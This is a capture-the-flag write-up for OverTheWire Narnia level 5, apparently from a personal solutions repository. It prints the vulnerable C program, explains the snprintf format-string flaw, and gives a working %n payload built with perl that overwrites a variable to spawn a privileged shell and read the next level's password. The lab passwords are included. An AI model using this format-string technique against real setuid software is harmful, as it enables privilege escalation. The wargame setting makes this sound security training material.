

# Level 5 → Level 6

## Solution
```
ssh narnia5@narnia.labs.overthewire.org -p 2226
```
```
1oCoEkRJSB
```
```
cd /narnia ; ls -al
```
```
./narnia5
```


Let's look at the code:

```
cat narnia5.c
```

The printed file is shown below:

```c
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){
        int i = 1;
        char buffer[64];

        snprintf(buffer, sizeof buffer, argv[1]);
        buffer[sizeof (buffer) - 1] = 0;
        printf("Change i's value from 1 -> 500. ");

        if(i==500){
                printf("GOOD\n");
        setreuid(geteuid(),geteuid());
                system("/bin/sh");
        }

        printf("No way...let me give you a hint!\n");
        printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
        printf ("i = %d (%p)\n", i, &i);
        return 0;
}
```

```
./narnia5 $(perl -e 'print "A"x100')
```


Ok, so the main difference between this challenge and the others is that `strcpy()` is not used. Instead, `snprintf()` is used.

But is the `snprintf` function safe? It turns out [not](https://stackoverflow.com/questions/10112984/buffer-overflow-using-snprintf).
Because it works like `printf` (except for the fact that the user chooses where the output will be printed).
I already had the opportunity to take advantage of `printf`'s weakness in the [microcorruption](https://github.com/SimchaTeich/Microcorruption/tree/main/11%20-%20Addis%20Ababa) challenge, so as soon as I received the reminder about `%n`, I understood what had to be done:

```
./narnia5
```



```
./narnia5 $(perl -e 'print "\x30\xd5\xff\xff" . "A"x(500-4) . "%n"')
```


```
./narnia5 $(perl -e 'print "\x30\xd3\xff\xff" . "A"x(500-4) . "%n"')
```
```
id
```
```
whoami
```
```
cat /etc/narnia_pass/narnia6
```


## Password for the next level:
```
BAV0SUV0iM
```
